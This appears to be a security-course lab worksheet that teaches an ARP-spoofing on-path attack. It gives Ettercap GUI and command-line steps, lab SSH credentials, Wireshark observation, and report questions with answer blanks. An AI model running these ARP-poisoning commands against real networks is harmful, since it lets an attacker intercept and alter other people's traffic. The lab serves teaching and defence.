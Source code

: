 # Lab 1: Lab - On-Path Attacks with Ettercap


#### **Objectives**
1. **Launch Ettercap and Explore Its Capabilities**
2. **Perform an On-Path (MITM) Attack**
3. **Use Wireshark to Observe the ARP Spoofing Attack**

#### **Background / Scenario**
On-path attacks (also known as MITM) allow attackers to intercept, modify, and capture data transmitted over a network without directly compromising the endpoints. This lab will guide you through performing an on-path attack using **Ettercap** and capturing ARP spoofing traffic using **Wireshark**.

#### **Required Resources**
- Kali Linux VM (with pre-configured tools)
- SSH access to the victim host (Linux device)

---

### **Part 1: Launch Ettercap and Explore its Capabilities**

#### **Step 1: Set Up an ARP Spoofing Attack**
1. Launch Kali Linux and open a terminal.
2. SSH into the victim machine at `10.6.6.23`:
   ```bash
   ssh -l labuser 10.6.6.23
   ```
   - Username: `labuser`
   - Password: `Cisco123`
3. Verify the ARP cache on the target machine:
   ```bash
   ip neighbor
   ```

#### **Step 2: Load Ettercap GUI Interface**
1. Open a new terminal session in Kali.
2. Launch the **Ettercap** GUI using the following command:
   ```bash
   sudo ettercap -G
   ```
3. In the Ettercap GUI, change the sniffing interface to **br-internal**.

---

### **Part 2: Perform the On-Path (MITM) Attack**

#### **Step 1: Select Target Devices**
1. In Ettercap, go to **Hosts > Scan for Hosts** to scan the network.
2. Add the target (`10.6.6.23`) as **Target 1** and the server (`10.6.6.13`) as **Target 2**.
3. Initiate the ARP poisoning attack:
   - Click on the **MITM** icon and select **ARP Poisoning**.
   - Ensure **Sniff remote connections** is selected.

#### **Step 2: Perform the ARP Spoofing Attack**
1. In the SSH session to the victim machine (`10.6.6.23`), initiate a ping to the server:
   ```bash
   ping -c 5 10.6.6.13
   ```
2. Check the ARP table again on the victim machine:
   ```bash
   ip neighbor
   ```

---

### **Part 3: Use Wireshark to Observe the ARP Spoofing Attack**

#### **Step 1: Select Target Devices and Perform the MITM Attack Using CLI**
1. SSH into the target (`10.6.6.23`) and verify communication with another host (`10.6.6.11`):
   ```bash
   ping -c 5 10.6.6.11
   ping -c 5 10.6.6.13
   ip neighbor
   ```
2. Start **Ettercap** using CLI to capture the attack:
   ```bash
   sudo ettercap -T -q -i br-internal --write mitm-saved.pcap --mitm arp /10.6.6.23// /10.6.6.13//
   ```
3. Observe the traffic and save it for analysis in **Wireshark**.

---

### **Lab Report Sections**

1. **How many entries are there in the current ARP cache?**
   - [Answer here]

2. **What is the MAC address of the Kali attacker machine?**
   - [Answer here]

3. **How many user interfaces are available for the Ettercap tool?**
   - [Answer here]

4. **How many hosts were discovered?**
   - [Answer here]

5. **Is the MAC address associated with 10.6.6.13 the same as in Part 1?**
   - [Answer here]

6. **What is strange about this change, and what is its effect?**
   - [Answer here]

7. **IP-MAC Address Table**
   | IP Address  | MAC Address  | Role                 |
   | ----------- | ------------ | -------------------- |
   | 10.6.6.1    | [Answer]     | Attacker             |
   | 10.6.6.11   | [Answer]     | Bystander            |
   | 10.6.6.13   | [Answer]     | Target 2 (server)    |
   | 10.6.6.23   | [Answer]     | Target 1 (user)      |

8. **Ettercap Options Table**
   | Options and Values | Meaning               |
   | ------------------ | --------------------- |
   | -T                 | [Answer]              |
   | -q                 | [Answer]              |
   | -i                 | [Answer]              |
   | --write            | [Answer]              |
   | --mitm arp         | [Answer]              |
   | /target1//         | [Answer]              |
   | /target2//         | [Answer]              |

---

### **Submission**
- Submit a detailed report documenting the ARP spoofing attack, the network configurations, and screenshots of your Wireshark capture file.